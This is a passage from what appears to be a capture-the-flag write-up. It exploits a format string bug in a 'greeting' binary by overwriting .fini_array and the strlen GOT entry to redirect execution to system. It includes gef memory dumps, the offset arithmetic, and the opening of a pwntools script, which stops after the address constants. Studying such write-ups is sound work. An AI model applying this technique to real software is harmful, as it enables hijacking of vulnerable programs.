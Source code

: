 Now when printf writes a value, it will write the amount of bytes it has printed. So if we need to write the value `0x804`, we need to print that many bytes. Since we are writing values like `0x8048614` I choose to split it up, that way we don't need to wait several minutes for the printf call to finish. I split up each write into two seperate writes, and that is why we needed four four byte spaces, each one for a different address. For the split writes, we will first write to the lower two bytes of each address. Since the top two bytes for each of the values we are writing is the same (`0x804`) I choose to write those last.

Now when I ran the exploit below hand, these are the values that are written by default. At this point I know everything I need to write the exploit, except the extra number of bytes I need to print to write the correct values (to print `13` bytes we can just specify the format string `%13x`):

```
gef➤  x/x 0x8049934
0x8049934:    0x00240024
gef➤  x/x 0x8049a54
0x8049a54 <strlen@got.plt>:    0x00240024
```

The first write I do is the the lower two bytes of the `.fini_array` address `0x8049934`. I need it to be the value `0x8614`, and it's value right now is `0x24`. So we just need to print an additional `0x8614 - 0x24 = 34288` bytes to get it to that value. Also the bytes printed before will affect future writes, so I just went through and did this for each individual write (except for the last two, since they were the same write I only needed to have one additional bytes printing for it). Subsequent writes can only be greater or equal to, not lesser.

When we try to write the higher two bytes, we run into a bit of an issue:

```
gef➤  x/x 0x8049934
0x8049934:    0x84908614
gef➤  x/x 0x8049a54
0x8049a54 <strlen@got.plt>:    0x84908490
```

The value it is writing to the higher two bytes is `0x8490`, however the value we need to write is smaller than that `0x0804`. So what we can do is write a larger value to it that contains the value `0x0804`, however the higher portion of that number will end up outside of the area we are writing to it. In order to do this, we will need to print `33652` bytes:

```
>>> (0x10000 - 0x8490) + 0x804
33652
```
we can see that the value were writing overflows into other subsequent dwords, however it doesn't really affect us:

```
gef➤  x/2x 0x8049934
0x8049934:    0x08048614    0x00000002
gef➤  x/2x 0x8049a54
0x8049a54 <strlen@got.plt>:    0x08048490    0xf7d40002
```

With all of that, we can put it together and we get this exploit:
```
from pwn import *

# Establish the target process
target = process('greeting')
gdb.attach(target, gdbscript = 'b *0x0804864f')

# The values we will be overwritting
finiArray = 0x08049934
strlenGot = 0x08049a54

# The values we will be overwritting with
getline = 0x8048614
systemPlt = 0x8048490
```